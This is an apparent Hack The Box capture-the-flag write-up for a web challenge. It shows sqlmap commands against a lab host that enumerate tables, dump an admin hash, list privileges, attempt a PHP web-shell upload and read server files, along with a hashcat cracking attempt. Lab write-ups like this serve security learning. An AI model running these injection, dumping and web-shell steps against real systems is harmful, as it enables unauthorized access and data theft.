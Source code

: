 +++
title = "Freelancer"
date = 2020-06-12
[taxonomies]
tags = ["hackthebox"]
+++

1.	The challenge: "Can you test how secure my website is? Prove me wrong and capture the flag!" The URL leads to a web page made by a freelancer.

2.	First thing I usually do is inspect the website by clicking around and see what it does, inspect the text, links, and source code for hints. I stumbled upon a contact form that might be of interest. I tried sending some dud info and see what I can find in `burpsuite`.
 
	![htb-freelancer-1.png](htb-freelancer-1.png)

	![htb-freelancer-2.png](htb-freelancer-2.png)
	
	Upon inspection of the source code, I noticed there was a comment in the code about the contact form. I tested further in `burpsuite` to see what I can find but nothing interesting was found.
	
	I dug around the source code again and see what else I could find and I stumbled upon this piece of code.

	![htb-freelancer-3.png](htb-freelancer-3.png)

	![htb-freelancer-4.png](htb-freelancer-4.png)
	
	Looks like a possible SQL injection. I tested all the parameters to double check to see if it's really stored in a database. Parameter ID=4 will show up blank which means the parameter is fetching data stored from a database.

	![htb-freelancer-5.png](htb-freelancer-5.png)

3.	Time to test for SQL injection using `sqlmap`
 
	```
	sqlmap -u http://docker.hackthebox.eu:31529/portfolio.php?id=1
	```

	![htb-freelancer-6.png](htb-freelancer-6.png)

	Tada. SQL injection vulnerability is found. Time to enumerate the database. Let's see what tables are stored in the database.

	```
	sqlmap -u http://docker.hackthebox.eu:31529/portfolio.php?id=1 --tables
	```

	![htb-freelancer-7.png](htb-freelancer-7.png)

	There is a table named `safeadmin`, let's take a look what is inside.
	
	```
	sqlmap -u http://docker.hackthebox.eu:31529/portfolio.php?id=1 -T safeadmin --dump
	```

	![htb-freelancer-8.png](htb-freelancer-8.png)

	![htb-freelancer-9.png](htb-freelancer-9.png)
	
	Looks like a `bcrypt` hash, this doesn't look too good in terms of brute forcing for a password since it will take a lot of time and resources due to the nature of `bcrypt` encryption. I'll try it anyway for the sake of example.

	```
	sudo hashcat -a 0 -m 3200 bcrypt.txt /usr/share/wordlists/rockyou.txt --force
	```

	![htb-freelancer-10.png](htb-freelancer-10.png)

4.	Seeing that this is `bcrypt` hash is unbreakable. Time to go back to enumerate the website since I haven't done it yet. If it made you wonder why I didn't do this at the beginning, I usually roam through the website and source code for hidden links or comments that may give clues.

	![htb-freelancer-11.png](htb-freelancer-11.png)
	
	`/administrat` directory has been found. Upon navigating to the URL, it appears to be a login page. I tried using SQL injection administrator bypass techniques but wasn't successful. 

	![htb-freelancer-12.png](htb-freelancer-12.png)

	Let's see what files I can find inside `/administrat`.
	
	![htb-freelancer-13.png](htb-freelancer-13.png)
	
	`/administrat/panel.php` was found. Upon navigating to the URL, it redirects my connection to `/administrat/index.php`. Strange.

5.	After taking a look around once again and figuring out my next steps, I decided to take a look at what database privileges I have using SQL injection. 

	```
	sqlmap -u http://docker.hackthebox.eu:31689/portfolio.php?id=1 --privileges
	```

	```
	[21:07:06] [INFO] the back-end DBMS is MySQL
	back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
	[21:07:06] [INFO] fetching database users privileges
	database management system users privileges:
	[*] 'db_user'@'%' (administrator) [28]:
	   privilege: ALTER
	   privilege: ALTER ROUTINE
	   privilege: CREATE
	   privilege: CREATE ROUTINE
	   privilege: CREATE TABLESPACE
	   privilege: CREATE TEMPORARY TABLES
	   privilege: CREATE USER
	   privilege: CREATE VIEW
	   privilege: DELETE
	   privilege: DROP
	   privilege: EVENT
	   privilege: EXECUTE
	   privilege: FILE
	   privilege: INDEX
	   privilege: INSERT
	   privilege: LOCK TABLES
	   privilege: PROCESS
	   privilege: REFERENCES
	   privilege: RELOAD
	   privilege: REPLICATION CLIENT
	   privilege: REPLICATION SLAVE
	   privilege: SELECT
	   privilege: SHOW DATABASES
	   privilege: SHOW VIEW
	   privilege: SHUTDOWN
	   privilege: SUPER
	   privilege: TRIGGER
	   privilege: UPDATE
	[*] 'root'@'localhost' (administrator) [28]:
	   privilege: ALTER
	   privilege: ALTER ROUTINE
	   privilege: CREATE
	   privilege: CREATE ROUTINE
	   privilege: CREATE TABLESPACE
	   privilege: CREATE TEMPORARY TABLES
	   privilege: CREATE USER
	   privilege: CREATE VIEW
	   privilege: DELETE
	   privilege: DROP
	   privilege: EVENT
	   privilege: EXECUTE
	   privilege: FILE
	   privilege: INDEX
	   privilege: INSERT
	   privilege: LOCK TABLES
	   privilege: PROCESS
	   privilege: REFERENCES
	   privilege: RELOAD
	   privilege: REPLICATION CLIENT
	   privilege: REPLICATION SLAVE
	   privilege: SELECT
	   privilege: SHOW DATABASES
	   privilege: SHOW VIEW
	   privilege: SHUTDOWN
	   privilege: SUPER
	   privilege: TRIGGER
	   privilege: UPDATE
	```
	
	What is my current user?
	
	```
	sqlmap -u http://docker.hackthebox.eu:31689/portfolio.php?id=1 --current-user
	```
	
	![htb-freelancer-14.png](htb-freelancer-14.png)
	
	Okay, so I know now that I have privileges to `FILE` which means I can read and maybe write files as `db_user`.

6.	The next idea I had was uploading a php web shell using `sqlmap` and see if I can execute basic OS commands.
	
	```
	[22:02:04] [INFO] the back-end DBMS is MySQL
	back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
	[22:02:04] [INFO] fingerprinting the back-end DBMS operating system
	[22:02:04] [INFO] the back-end DBMS operating system is Linux
	[22:02:04] [WARNING] expect junk characters inside the file as a leftover from UNION query
	do you want confirmation that the local file 'Simple-PHP-Web-Shell/shell.php' has been successfully written on the back-end DBMS file system ('/var/www/html')? [Y/n] 
	[22:02:05] [WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)
	```
	
	Looks like my write permissions is not working or I don't have enough privileges. 

7.	Not sure what I needed to do here, I decided to see what kind of files I can read on the system itself. Since `panel.php` was acting a bit strange with the redirection, I wonder if there was hidden code inside the php file.

	```
	sqlmap -u http://docker.hackthebox.eu:31689/portfolio.php?id=1 --file-read /var/www/html/administrat/panel.php
	```
	
	```
	---
	[22:05:55] [INFO] the back-end DBMS is MySQL
	back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
	[22:05:55] [INFO] fingerprinting the back-end DBMS operating system
	[22:05:55] [INFO] the back-end DBMS operating system is Linux
	[22:05:55] [INFO] fetching file: '/var/www/html/administrat/panel.php'
	do you want confirmation that the remote file '/var/www/html/administrat/panel.php' has been successfully downloaded from the back-end DBMS file system? [Y/n] 
	[22:05:57] [INFO] the local file '/home/jtuyen/.sqlmap/output/docker.hackthebox.eu/files/_var_www_html_administrat_panel.php' and the remote file '/var/www/html/administrat/panel.php' have the same size (880 B)                                                                                                                      
	files saved to [1]:
	[*] /home/jtuyen/.sqlmap/output/docker.hackthebox.eu/files/_var_www_html_administrat_panel.php (same file)
	```
	
	I didn't expect this to happen but the `panel.php` code contains the flag.
	
	![htb-freelancer-15.png](htb-freelancer-15.png)